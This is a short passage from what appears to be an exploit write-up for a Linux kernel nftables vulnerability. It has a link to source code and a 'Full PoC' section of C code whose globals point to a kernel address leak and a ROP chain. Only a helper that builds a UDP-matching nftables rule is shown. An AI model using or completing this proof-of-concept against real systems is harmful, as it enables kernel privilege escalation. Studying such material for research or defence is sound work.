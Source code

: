 
[link_preview](https://drive.google.com/file/d/1408CV03X1JAqXtjPgusQockrtqkH6gF2/view?usp=sharing)


[https://drive.google.com/file/d/1408CV03X1JAqXtjPgusQockrtqkH6gF2/view?usp=sharing](https://drive.google.com/file/d/1408CV03X1JAqXtjPgusQockrtqkH6gF2/view?usp=sharing)


### 3.6 Full PoC


```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <unistd.h>
#include <stddef.h>
#include "utils.h"

unsigned long kernel_base = 0;

char ROP_FLAG = 0;

typedef enum dst_type_enum
{
    LEAK,
    ROP,
} dst_type;

unsigned long payload_size = 0;

static struct nftnl_rule *isolate_udp_pkt(uint8_t family, const char *table, const char *chain, const char *target_chain, in_port_t dst_port)
{
    struct nftnl_rule *r = NULL;

    r = nftnl_rule_alloc();
    if (r == NULL)
    {
        perror("OOM");
        exit(EXIT_FAILURE);
    }

    nftnl_rule_set_str(r, NFTNL_RULE_TABLE, table);
    nftnl_rule_set_str(r, NFTNL_RULE_CHAIN, chain);
    nftnl_rule_set_u32(r, NFTNL_RULE_FAMILY, family);

    // Extract protocol using meta
    add_meta(r, NFT_META_L4PROTO, NFT_REG_1);

    uint8_t udp_proto = IPPROTO_UDP;
    add_cmp(r, NFT_REG_1, NFT_CMP_EQ, &udp_proto, sizeof(udp_proto));

    // Extract source port using payload
    add_payload(r, NFT_PAYLOAD_TRANSPORT_HEADER, 0, NFT_REG_1, 2, 2);

    uint16_t port = dst_port;
    add_cmp(r, NFT_REG_1, NFT_CMP_EQ, &port, sizeof(port));

    // Set verdict to jump to target chain if packet matches
    add_verdict(r, NFT_GOTO, target_chain, NFT_REG_VERDICT);

    return r;
}

```